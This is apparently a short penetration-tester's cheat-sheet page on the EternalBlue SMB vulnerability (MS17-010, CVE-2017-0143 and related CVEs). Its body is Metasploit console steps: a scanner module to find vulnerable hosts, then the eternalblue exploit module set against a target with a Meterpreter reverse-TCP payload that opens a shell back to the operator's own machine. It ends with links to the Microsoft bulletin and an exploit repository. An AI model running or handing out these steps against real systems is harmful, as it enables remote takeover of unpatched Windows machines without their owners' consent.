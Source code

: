 ```yaml
---
title : "CVE-2017-0143"
# pre : ' '
description : "EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol."
date : 2020-03-23T11:14:37+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-0143 | MS17-010

* MS17-010
* CVE-2017-0143
* CVE-2017-0144
* CVE-2017-0145
* CVE-2017-0146
* CVE-2017-0148
* CVE-2017-0147

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

## URL List

* [Docs.microsoft.com](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010)
